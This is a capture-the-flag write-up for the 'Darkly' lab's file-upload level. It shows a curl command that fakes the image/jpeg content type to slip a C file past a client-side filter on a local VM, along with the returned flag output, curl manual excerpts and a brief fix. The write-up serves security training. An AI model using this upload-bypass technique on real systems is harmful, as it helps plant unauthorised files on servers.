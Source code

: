 # Solution

```
curl -X POST -H "Content-Type: multipart/form-data" -F "Upload=Upload" -F "uploaded=@/mnt/nfs/homes/cboutier/Desktop/Darkly/9_Upload_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag
```

When we inspect the image upload page, we see the following upload form:  

![source_code](Source_code.png)  

By trying to upload different type of files, it seems like it only accepts jpeg files.  

Input file name : "uploaded"
Input Submit button: name: "Upload", value: "Upload"  
Header Content Type: `multipart/form-data`


Posting the data directly to the page which contains the code for handling the file upload is a method for completely bypassing a client side filter. -> Use of CURL  
Syntax: `curl -X POST -F “submit:<value>” -F “<file-parameter>:@<path-to-file>” <site>`.  
To use this method you would first aim to intercept a successful upload (using Burpsuite or the browser console) to see the parameters being used in the upload, which can then be slotted into the above command.

Using the information from the browser command, we can try this:  
`curl -X POST -H "Content-Type: multipart/form-data" -F "Upload=Upload" -F "uploaded=@/mnt/nfs/homes/cboutier/Desktop/Darkly/9_Upload_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag`  
<!-- 
curl -X POST -H "Content-Type: multipart/form-data" -F "Submit_btn_name = Submit_btn_value" -F "Input_file_name =@ file_to_upload;type=image/jpeg" "page_address" | grep flag
 -->

We get the following result:

```
_exploit/Ressources/test.c;type=image/jpeg" "http://192.168.56.103/?page=upload" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3036    0  2747  100   289    549     57  0:00:05  0:00:04  0:00:01   723
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.c succesfully uploaded.</pre>
```

To prevent this, not trust the content-type header blindly, as this can be altered by a third-party. Examine the file extension directly to block file types not accepted.


MAN CURL:  
-X, --request <method>
              (HTTP) Specifies a custom request method to use when communicating with the HTTP server. The specified  request  method
              will  be used instead of the method otherwise used (which defaults to GET).

-F, --form <name=content>
              (HTTP  SMTP  IMAP) For HTTP protocol family, this lets curl emu‐
              late a filled-in form in which a user  has  pressed  the  submit
              button.  This  causes  curl  to POST data using the Content-Type
              multipart/form-data according to RFC 2388.

              For SMTP and IMAP protocols, this is the means to compose a mul‐
              tipart mail message to transmit.

              This  enables  uploading of binary files etc. To force the 'con‐
              tent' part to be a file, prefix the file name with an @ sign. 
			  @ makes  a  file  get attached in the post as a file upload.

              Example: send an image to an HTTP server, where 'profile' is the
              name of the form-field to which the file  portrait.jpg  will  be
              the input:

               curl -F profile=@portrait.jpg https://example.com/upload.cgi

              Example:  send your name and shoe size in two text fields to the
              server:

               curl -F name=John -F shoesize=11 https://example.com/

              You can also  tell  curl  what  Content-Type  to  use  by  using
              'type=', in a manner similar to:

               curl -F "web=@index.html;type=text/html" example.com


https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html  
https://infosecwriteups.com/upload-vulnerabilities-tryhackme-writeup-f6fba1dad902  


![upload_page](file_upload_page.png)  

